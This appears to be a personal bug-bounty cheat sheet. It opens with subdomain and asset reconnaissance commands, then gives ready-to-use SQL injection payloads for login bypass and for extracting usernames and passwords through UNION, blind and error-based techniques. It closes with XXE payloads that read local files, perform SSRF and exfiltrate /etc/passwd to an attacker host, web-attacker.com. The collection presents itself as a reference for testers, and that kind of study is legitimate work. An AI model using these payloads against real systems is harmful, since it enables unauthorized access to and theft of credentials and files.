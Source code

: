 ## [](#header-2) Enumeration / Recon
Burp Regex for Scope Control
```powershell
.*\.example\..*$
```
Find Emails
```powershell
https://phonebook.cz/
```
Reverse Whois Search
```powershell
https://www.whoxy.com/example.com
```
Find Domains Hosted On The Same IP Address
```powershell
https://api.hackertarget.com/reverseiplookup/?q=example.com
```
Pulling root domains
```powershell
Whoxy Reverse Whois API

cat asn.txt | tlsx -san -cn -silent -resp-only | grep -v "example.com"

amass intel -asn 3389

https://crt.sh
cat crt | jq -r '.[].common_name' | sed 's/\*\.\(.*\)/\1/' | rev | cut -d "." -f 1,2 | rev | grep -v " " | sort -u
```
Resolve IP Addresses In A Subnet Range
```powershell
subnet.py [subnet range] | httpx -probe -sc -cl -td -fr | grep "SUCCESS"
xargs -a asn -I {} bash -c 'subnet.py {} | httpx -l final -probe -title -sc -cl -td -ip -fr -p 80,443,8080,8888,8000,8008 | grep "SUCCESS"'
```
Extract A records for the given list of subdomains
```powershell
dnsx -l testsubs -silent -a -resp-only
```
Subdomain Enumeration Commands
```powershell
subfinder -d example.com -all
assetfinder -subs-only example.com
amass enum -d example.com -active
amass enum -d example.com -passive
```
Subdomain Bruteforce
```powershell
~/Desktop/tools/subbrute/subbrute.py example.com
~/Desktop/tools/subbrute/subbrute.py -s ~/Desktop/tools/massdns/lists/names.txt example.com
```
Subdomain Permutations
```powershell
cat domains.txt | dnsgen - | dnsx -silent
sed 's/A.*//' livesubs | sed 's/CN.*//' | sed 's/\..$//' > domains.resolved
```
HTTPX Command
```powershell
httpx -l final -probe -title -sc -cl -td -ip -fr -p 80,443,8080,8888,8000,8008 | grep "SUCCESS"
```
Find Important Keywords In A List Of Subdomains Or Urls
```powershell
isubs.sh file.txt
```
## [](#header-2) Sqli
SQL injection cheat sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet

Basic Query: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

Basic Payload: `https://insecure-website.com/products?category=Gifts'--`

### Subverting Application Logic

Query: `SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`

Payload: `administrator'--`

### Retrieving data from other database tables

Query: `SELECT name, description FROM products WHERE category = 'Gifts'`

Payload: `' UNION SELECT username, password FROM users--`

### SQL injection UNION attacks

The UNION keyword enables you to execute one or more additional SELECT queries and append the results to the original query. For example: `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

Determining the number of columns: `' ORDER BY 1--` or `' UNION SELECT NULL,NULL--` (note: number of nulls, order by = number of columns)

On Oracle, every SELECT query must use the FROM keyword and specify a valid table: `' UNION SELECT NULL FROM DUAL--`

conditional based blind SQL injection:`' union select null from users where username='administrator' and 1 = (SELECT CASE WHEN (length(password)=10) THEN 1/(SELECT 0) ELSE NULL END)--`

### Extracting sensitive data via verbose SQL error messages

Payload: `' and 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`

## [](#header-2) XXE

### Exploiting XXE to retrieve files

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///path/to/file"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

### Exploiting XXE to perform SSRF attacks

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
Bypass filtering and validation:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
<stockCheck><productId>1</productId></stockCheck>
```

### Exploiting blind XXE to exfiltrate data out-of-band
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
